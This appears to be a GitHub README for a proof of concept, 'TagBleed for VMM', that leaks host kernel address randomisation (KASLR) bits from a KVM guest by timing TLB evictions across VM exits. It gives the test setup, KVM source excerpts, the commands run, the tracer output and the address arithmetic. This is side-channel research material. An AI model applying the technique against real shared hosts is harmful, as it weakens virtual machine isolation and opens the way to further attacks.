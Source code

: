 # TagBleed for VMM

This is proof-of-concept code for leaking host KASLR bits from a KVM guest based on the cool research “TagBleed: Breaking KASLR on the Isolated Kernel Address Space using Tagged TLBs” by VUSec [1]. Some notes from the paper and references:

-	TLB entries are tagged using process-context identifier (PCID) to avoid flushing during context switches
-	TLB sets are indexed based on virtual address bits. Indexing function varies between microarchitecture [2]
-	It is possible to precisely evict TLB sets knowing the indexing function
-	If a kernel syscall slows down on evicting a particular TLB set (TLB miss), it is derived that the evicted TLB set stores the virtual address translation meant for some page accessed by kernel. This in turn leaks the virtual address bits thus breaking KASLR

This idea works across hypervisor boundaries as well. TLB entries are tagged with Virtual Processor IDs (VPID). The host entries are tagged to VPID 0 whereas the guest entries tagged with VPID assigned to vCPU. With VPID it is possible to avoid TLB flushing during VM entry or VM exit. Since TLB is shared between guest and host through VPID, it is possible to evict TLB sets during guest execution and measure time taken for VM exit events.

## Test Environment

**Ubuntu Host:** 18.04.4 LTS Desktop running KVM+QEMU and 5.8-rc3 kernel [4]
```
renorobert@host:~$ uname -rv
5.8.0-050800-generic #202006282330 SMP Sun Jun 28 23:35:41 UTC 2020
```
**CPU:** Intel(R) Core(TM) i7-2670QM CPU @ 2.20GHz (Sandy Bridge microarchitecture)

The PoC uses hardcoded TLB spec values for the above CPU microarchitecture. To get the TLB specifications use revanc in the host [3]

```
4-way set associative L1 d-TLB (32 entries, 2M page 4M page)
4-way set associative L1 d-TLB (64 entries, 4K page)
L1 i-TLB (8 entries, 2M page 4M page)
4-way set associative L1 i-TLB (64 entries, 4K page)
64B prefetch
4-way set associative L2 TLB (512 entries, 4K page)
8-way set associative L1 d-cache (32K, 64B line size)
8-way set associative L1 i-cache (32K, 64B line size)
8-way set associative L2 cache (256K, 64B line size)
12-way set associative L3 cache (6M, 64B line size. inclusive)
```

**Ubuntu Guest:** 20.04 LTS Server with 2 vCPUs and 4GB RAM    
```
renorobert@guest:~$ uname -rv
5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020
```
The guest is booted with “lapic=notscdeadline” kernel parameter. The PoC measures timings for VM exit caused by writing to MSR_IA32_TSC_DEADLINE which reenters guest using a fast path. Other exit events should also work e.g. CPUID, but they have longer execution time.

```c
--- arch/x86/kvm/vmx/vmx.c ---

bool __vmx_vcpu_run(struct vcpu_vmx *vmx, unsigned long *regs, bool launched);

static fastpath_t vmx_vcpu_run(struct kvm_vcpu *vcpu)
{
	fastpath_t exit_fastpath;
	struct vcpu_vmx *vmx = to_vmx(vcpu);
	unsigned long cr3, cr4;

reenter_guest:
	/* Record the guest's net vcpu time for enforced NMI injections. */
	if (unlikely(!enable_vnmi &&
		     vmx->loaded_vmcs->soft_vnmi_blocked))
		vmx->loaded_vmcs->entry_time = ktime_get(); 
	. . .
		vmx->fail = __vmx_vcpu_run(vmx, (unsigned long *)&vcpu->arch.regs,
				   vmx->loaded_vmcs->launched);
	. . .
	exit_fastpath = vmx_exit_handlers_fastpath(vcpu);
	if (exit_fastpath == EXIT_FASTPATH_REENTER_GUEST) {
		if (!kvm_vcpu_exit_request(vcpu)) {
			. . .
			if (vcpu->arch.apicv_active)
				vmx_sync_pir_to_irr(vcpu);
			goto reenter_guest;
	. . .
}
```
```c
static fastpath_t vmx_exit_handlers_fastpath(struct kvm_vcpu *vcpu)
{
	switch (to_vmx(vcpu)->exit_reason) {
	case EXIT_REASON_MSR_WRITE:
		return handle_fastpath_set_msr_irqoff(vcpu);
	case EXIT_REASON_PREEMPTION_TIMER:
		return handle_fastpath_preemption_timer(vcpu);
	default:
		return EXIT_FASTPATH_NONE;
	}
}
```
```c
--- arch/x86/kvm/x86.c ---

fastpath_t handle_fastpath_set_msr_irqoff(struct kvm_vcpu *vcpu)
{
	u32 msr = kvm_rcx_read(vcpu);
	u64 data;
	fastpath_t ret = EXIT_FASTPATH_NONE;

	switch (msr) {
	. . .

	case MSR_IA32_TSCDEADLINE:
		data = kvm_read_edx_eax(vcpu);
		if (!handle_fastpath_set_tscdeadline(vcpu, data)) {
			kvm_skip_emulated_instruction(vcpu);
			ret = EXIT_FASTPATH_REENTER_GUEST;
		}
		break;
	. . .

	return ret;
}
```
## Experiment

Sandy Bridge uses linear indexing function for locating the TLB set [2]. For 4K pages, 7 bits from virtual address VA[12:19] is used for indexing 128 L2 TLB sets.

For kvm-intel.ko module the access to data page at address 0x3C000 and for kvm.ko module the access to data page at address 0x7A000 is noticeable across multiple executions from guest and also after host reboots. One can also evict a combination of identified TLB sets used by a kernel module to confirm the mapping.

```
renorobert@guest:~/tagbleedvmm/tlbdev$ sudo insmod tlbdev.ko

renorobert@guest:~/tagbleedvmm$ sudo ./tracer/tracer 
tracer: [+] Measuring TLB evictions across VMEXITs...
tracer: [+] Check trace_tlb.log file...

renorobert@analysis:~/tagbleedvmm$ python scripts/tlb_evict_solver.py results/trace_tlb.log
Set: 0x32, Time: 5104
Set: 0x42, Time: 5099
Set: 0x37, Time: 5086
Set: 0x0c, Time: 5062
Set: 0x3d, Time: 5037
Set: 0x33, Time: 4986
Set: 0x4c, Time: 4964
Set: 0x13, Time: 4959
Set: 0x18, Time: 4959
Set: 0x15, Time: 4959
Set: 0x1c, Time: 4959
Set: 0x74, Time: 4959
Set: 0x12, Time: 4959
Set: 0x11, Time: 4959
Set: 0x0f, Time: 4959
Set: 0x1b, Time: 4959
Set: 0x75, Time: 4959
```
```
renorobert@host:~$ sudo cat /proc/modules | grep -i kvm
kvm_intel 286720 4 - Live 0xffffffffc04f6000
kvm 708608 1 kvm_intel, Live 0xffffffffc0448000

>>> hex(((0xffffffffc04f6000 + 0x3c000) & 0x7f000) >> 12)
'0x32L'
>>> hex(((0xffffffffc0448000 + 0x7a000) & 0x7f000) >> 12)
'0x42L'
```
![alt text](https://github.com/renorobert/tagbleedvmm/raw/master/results/trace_tlb.png "tagbleedvmm")
 
## References

[1] TagBleed: Breaking KASLR on the Isolated Kernel Address Space using Tagged TLBs
https://download.vusec.net/papers/tagbleed_eurosp20.pdf

[2] Translation Leak-aside Buffer: Defeating Cache Side-channel Protections with TLB Attacks
https://download.vusec.net/papers/tlbleed_sec18.pdf

[3] RevAnC: A Framework for Reverse Engineering Hardware Page Table Caches
https://download.vusec.net/papers/revanc_eurosec17.pdf     
https://github.com/vusec/revanc

[4] Ubuntu kernel v5.8-rc3 Mainline Test    
https://kernel.ubuntu.com/~kernel-ppa/mainline/v5.8-rc3/


